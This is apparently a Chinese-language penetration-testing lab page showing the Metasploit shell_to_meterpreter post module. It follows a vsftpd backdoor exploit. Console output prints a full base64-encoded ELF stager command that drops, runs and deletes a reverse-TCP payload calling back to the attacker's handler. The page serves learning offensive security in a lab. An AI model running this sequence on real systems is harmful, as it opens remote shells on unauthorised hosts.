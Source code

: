 该模块尝试将命令 shell 升级到 meterpreter。会自动检测 shell 平台，并选择最适合目标的 meterpreter 版本。目前 meterpreter/reverse_tcp 在 Windows 和 Linux 上使用，'python/meterpreter/reverse_tcp' 在所有其他系统上使用。

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   1  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
```

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set LHOST eth1
LHOST => 192.15.82.2
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.15.82.2:4433 
[*] Sending stage (985320 bytes) to 192.15.82.3
[*] Meterpreter session 2 opened (192.15.82.2:4433 -> 192.15.82.3:55484) at 2023-02-01 03:52:25 +0000
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towA9SAmgCABFRieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/zAVGf.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/bbfpr' < '/tmp/zAVGf.b64' ; chmod +x '/tmp/bbfpr' ; '/tmp/bbfpr' & sleep 2 ; rm -f '/tmp/bbfpr' ; rm -f '/tmp/zAVGf.b64'"
[-] Output: "[1] 22"
[*] Stopping exploit/multi/handler
[*] Post module execution completed
```
